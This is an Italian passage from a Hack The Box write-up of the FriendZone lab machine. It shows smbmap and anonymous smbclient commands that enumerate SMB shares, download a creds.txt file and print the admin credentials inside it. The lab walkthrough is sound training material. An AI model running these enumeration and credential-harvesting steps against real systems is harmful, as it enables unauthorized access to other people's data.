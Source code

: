 Rilanciamo smbmap con la flag -R per vedere quali file sono all'interno delle cartelle a cui abbiamo accesso 
```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbmap -R -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
Disk                                                    Permissions     Comment
----                                                    -----------     -------
print$                                                  NO ACCESS       Printer Drivers
Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
general                                                 READ ONLY       FriendZone Samba Server Files
        .\general\*
        dr--r--r--                0 Wed Jan 16 15:10:51 2019    .
        dr--r--r--                0 Tue Sep 13 10:56:24 2022    ..
        fr--r--r--               57 Tue Oct  9 19:52:42 2018    creds.txt
        Development                                             READ, WRITE     FriendZone Samba Server Files
        .\Development\*
        dr--r--r--                0 Tue Jun  6 14:54:23 2023    .
        dr--r--r--                0 Tue Sep 13 10:56:24 2022    ..
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))

```

Vediamo che abbiamo un file chaimato creds.txt che sembra molto interessante 
ci colleghiamo con smbclient con la flag -N ( per non richiedere password)

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbclient  //10.10.10.123/general -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                3545824 blocks of size 1024. 1650548 blocks available
smb: \> get creds.txt 
getting file \creds.txt of size 57 as creds.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 

┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Abbiamo le credenziali admin proviamole
